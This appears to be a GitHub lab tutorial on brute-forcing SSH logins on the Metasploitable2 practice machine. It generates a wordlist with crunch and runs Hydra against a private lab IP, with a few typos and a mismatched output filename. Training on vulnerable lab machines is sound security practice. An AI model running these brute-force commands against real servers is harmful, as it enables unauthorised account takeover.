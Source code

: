 # Hack Metacploiable2 vulnarable machine: SSH BruteForce with HYDRA and CRUNDH #


### Tools need to install ###
- FTP
- Hydra
- Crunch
```
sudo apt install openssh-server 
sudo apt install openssh-client
```
```
sudo apt install hydra
```
```
sudo apt install crunch
```
### Steps ###
- Find the metsploitable2 machines IP [Click here to see details](find_ip_ms2.md).
- Check if <b> vsftpd 2.3.4 </b> (port 21) is open with nmap.
- Let the IP is 192.168.56.103
- Check if SSH is working 
```
ssh msfadmin@192.168.56.103
```
- type yes to continue
- Give 'msfadmin' as password, you should connect. then exit from ssh
- Now to hack the machines , lets we don't have the username and password. 
- Generate wordlist with crunch [click here to see details](wordlist_gen_crunch.md)
```
crunch 8 8 adfimns | grep '^msfadm' > wordlist.txt
```
- Use hydra to bruteforce with the following command
```
hydra -L wordlist.txt  -P wordlist.txt -V -o credential_ssh.txt 192.168.56.103 ssh -t 4
```
- the password and username found!
![hacked](ssh_image.png)
- Wait for hydra to finish all the combination and is will save the username and password in <b>credential_ssh.txt </b>  file.
- we can see username and password by 
```
cat credential.txt
```





